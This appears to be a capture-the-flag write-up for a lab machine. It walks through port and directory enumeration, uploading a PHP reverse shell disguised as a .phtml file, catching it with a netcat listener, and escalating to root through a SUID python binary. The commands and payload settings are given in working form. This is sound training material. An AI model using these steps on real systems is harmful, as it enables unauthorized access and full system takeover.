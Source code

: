 Target: 10.10.255.188 

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.255.188   

Nmap scan report for 10.10.255.188
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.255.188/FUZZ

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 314, Words: 20, Lines: 10]
```

checking index
![/index.php](rootme1.png)

checking /panel
![/panel](rootme2.png)


### Findings:Looking for attack vectors

In /panel files can be uploaded with restrictions and in /uploads uploaded files can be accessed.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.phtml
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
<snip>
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded file in  /uploads
![/uploads](rootme3.png)


```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
www-data@rootme:/usr/bin$ cd /var/www

www-data@rootme:/var/www$ ls

html  user.txt

www-data@rootme:/var/www$ cat user.txt  

<redacted>
```


## Priv Escalations:

enumerating SUID
```
www-data@rootme:/var/www$ find / -perm -u=s -type f 2> /dev/null

<snip>                                                                       
/usr/bin/traceroute6.iputils                                                                                       
/usr/bin/newuidmap                                                                                                 
/usr/bin/newgidmap                                                                                                 
/usr/bin/chsh                                                                                                      
/usr/bin/python                                                                                                    
/usr/bin/at                                                                                                        
/usr/bin/chfn                                                                                                      
/usr/bin/gpasswd                                                                                                   
/usr/bin/sudo                                                                                                      
/usr/bin/newgrp                                                                                                    
/usr/bin/passwd                                                                                                    
/usr/bin/pkexec                                                                                                    
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

exploiting python SUID
```
www-data@rootme/var/www: /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
# id

uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

```
# cat /root/root.txt

<redacted>
```
